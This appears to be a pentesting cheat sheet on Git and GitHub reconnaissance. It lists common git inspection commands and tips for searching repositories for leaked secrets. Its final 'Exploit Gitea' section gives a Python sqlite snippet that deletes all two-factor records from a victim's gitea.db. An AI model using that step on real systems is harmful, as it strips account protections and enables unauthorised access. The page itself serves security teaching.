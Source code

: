 ```yaml
---
title: Git GitHub Pentesting
desc: A software for tracking changes in any sets of files. It’s also used with GitHub usually.
tags: [Git, GitHub, Recon]
alts: []
render_with_liquid: false
---
```


## 1. Git Commands for the Repository Investigation

1. **Check Information**

    ```sh
    # Basic information
    git show
    git show <branch-name>
    git show <commit-id>
    git show <tag-name>

    # Configuration
    git config --list

    # Commit history
    git log
    git log --stat

    # Compare the two commits
    git diff
    git diff --staged
    git diff --cached

    # Working tree status
    git status
    ```

2. **Back to the Previous Commits**

    ```sh
    # You can get the "commit-id" by 'git log'
    git checkout <commit-id>

    # Return the recent commit
    git checkout master
    git checkout main
    ```

3. **Search the Other Branches**

    For getting all branches.

    ```sh
    git branch -a
    ```

    Btw, for creating a new branch.
    
    ```
    git branch new-branch
    ```

4. **Clone the Repository**

    ```sh
    git clone https://github.com/username/repo.git

    # via SSH
    git clone ssh://git-user@10.0.0.1/path/to/repo
    git clone ssh://git-user@10.0.0.1/path/to/repo.git
    ```

5. **Find Tags**

    ```sh
    # List tags
    git tag
    git tag -l

    # Show the contents of the specific tag
    git show <tag-name>
    ```

<br />

## 2. GitHub Dorks

1. **Search Target Repository**

    You may be able to get the desired repository by searching in the Google.  

    The searching word is like "<target-name> github".

2. **Find Sensitive Data in the Repository**

    If you can access to the GitHub repository, research files and find the sensitive information. For example:

    - Hard-coded contents
    - Older commits

    For more details, see the [github-dorks](https://github.com/techgaun/github-dorks){:target="_blank"}

<br />

## 3. Exploi Gitea

1. **Delet the Two-Factor**

    ```sh
    victim@machine:/gitea/gitea$ python3

    >>> import sqlite3
    >>> conn=sqlite3.connect('gitea.db')
    >>> conn.execute('delete from two_factor')
    >>> conn.commit()
    >>> conn.close()
    ```